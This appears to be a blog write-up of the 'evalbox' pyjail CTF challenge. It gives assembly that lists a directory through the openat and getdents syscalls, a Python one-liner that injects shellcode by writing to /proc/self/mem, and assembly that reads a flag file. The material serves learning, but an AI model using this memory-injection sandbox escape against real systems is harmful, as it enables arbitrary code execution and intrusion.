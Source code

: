 ```yaml
---
title: "evalbox - pyjail writeup"
date: 2023-08-19
draft: false
tags: ["pyjail", "pwn", "ptr-yudai"]
---
```


This was a particularly unique and well-designed PyJail challenge featured in the Asian Cyber Security Challenge. Although I solved it during the contest using an unintended method.
<!--more-->
I later came across a writeup by ptr-yudai (an incredible pwner, someone I really aspire to be like!). Below are the notes I made while going through his insightful writeup.


## Part 1: Getting the Name of the File

In this challenge, we needed to find the file's name along with the full path, as the flag file had a randomized name.

### `openat` System Call:
The `openat` syscall allows us to open files within a directory by specifying the directory file descriptor and a relative path.

```c
int openat(int dirfd, const char *pathname, int flags);
```

- We set the path as `/home/ctf`, and `AT_FDCWD` is set in `dirfd` to indicate that the pathname is relative.
- `openat` syscall breakdown:
  - `rdi`: first argument - `AT_FDCWD` (`-100`).
  - `rsi`: pointer to the path (e.g., `/home/ctf`).
  - `rdx`: flags (set to `0` for read-only).
  - `rax`: syscall number (257).

### `getdents` System Call:
This syscall reads directory entries, such as filenames, from an open directory.

```c
int getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count);
```

- It retrieves a series of `linux_dirent` structures, each containing metadata about files within the directory, like the inode number, offset, and filename.

```c
struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
    char           pad;       /* Zero padding byte */
    char           d_type;    /* File type (since Linux 2.6.4) */
};
```

- `getdents` syscall breakdown:
  - `rdi`: file descriptor returned by the `openat` syscall.
  - `rsi`: buffer (address of the directory entries).
  - `rdx`: buffer size (`0x1000`).
  - `rax`: syscall number (78).

### Recursive Code to Print Directory Entries:
The following code iterates through the `linux_dirent` structures, printing out each filename in the directory.

```asm
r15 = rax          ; number of bytes read.
r14 = 0            ; initialize index to 0.
edx = 0            ; reset edx.

lp:
    write(1, rsp + r14 + 18, 20)    ; print the filename.
    write(newline)                  ; add newline.

    dx = *(rsp + r14 + 16)          ; get the record length.
    add r14d, edx                   ; move to the next record.
    cmp r14, r15                    ; compare index with total bytes read.
    jl lp                           ; loop until all records are printed.

    exit()                          ; exit after printing all filenames.
```

This code loops through the directory entries and prints the filenames, allowing us to identify the randomly named flag file.

## Part 2: Injecting Shellcode via Memory Manipulation

The next step involves executing arbitrary code by injecting shellcode into memory using file descriptors mapped to the process's memory.

### Virtual Memory Manipulation:
We leverage the `/proc/` filesystem, which provides access to the kernel's view of the current process, including memory mappings and the process's memory itself.

- `/proc/self/maps`: Provides the memory mappings of the current process.
- `/proc/self/mem`: Allows direct access to the memory of the current process.

### Python Code for Shellcode Injection:

```python
code = f"""
all(map(
    lambda fs: [
        fs[1].seek(int(fs[0].read(12), 16) + 0x18ebb8, 0),
        fs[1].write({shellcode}),
        fs[1].flush(),
        input()
    ],
    [(open("/proc/self/maps"), open("/proc/self/mem", "wb"))]
))
""".replace("\n", "")
```

### Breakdown:
1. **Get the memory mapping**: The code reads the first address from `/proc/self/maps`, which gives the base address of the memory region.
2. **Seek to a target offset**: It seeks to a specific offset (calculated as `0x18ebb8` from the base address), which is somewhere in the `_Py_read` function.
3. **Write shellcode**: The shellcode is injected into the memory at the calculated offset.
4. **Flush changes**: The memory is flushed to ensure that the shellcode is written.
5. **Trigger shell execution**: The shellcode gets executed when the process calls the read function.

## Part 3: Extracting the Flag
In the final part, the flag file can be accessed using standard file operations. Since the flag filename is randomized, the steps involve:
- **Opening the file**: Using the `open` syscall to open the flag file.
- **Reading the flag**: Reading the contents of the flag file.
- **Printing the flag**: Outputting the flag, which reveals the solution.

```bash
open("flag-[random-md5].txt", O_RDONLY)
read(fd, buffer, size)
write(1, buffer, size)
```

## Part 1 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
	;openat(AT_FDCWD, "/", O_RDONLY)
	mov edx, 0
	lea rsi, [rel s_root]
	mov rdi, -100
	mov eax, 257
	syscall

	;getdents(fd, dirent, 0x1000)
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 0x1000
	mov rax, 78
	syscall

	mov r15, rax

	xor r14, r14
	xor edx, edx
	jmp rec 

rec:
	mov dx, [rsp+r14+16] ; rsp is our dirent
	sub edx, 20
	lea rsi, [rsp+r14+18]
	mov edi, 1
	mov eax, 1
	syscall

	mov edx, 1
	lea rsi, [rel s_newline]
	mov edi, 1
	mov eax, 1
	syscall

	mov dx, [rsp+r14+16]
	add r14d, edx
	cmp r14, r15
	jl rec

	xor edi, edi
	mov eax, 60
	syscall

section .data
	s_root: db "/home/ctf",0
	s_newline: db 0x0a
```

## Part 2 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
    mov rax, 2
    lea rdi, [rel flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 100
    mov rax, 1
    syscall

section .data
    flag: db "/home/ctf/flag-0479f1dcda629bbe833598bce876a647.txt", 0 
```

By following this process, we can successfully extract the flag and complete the challenge.
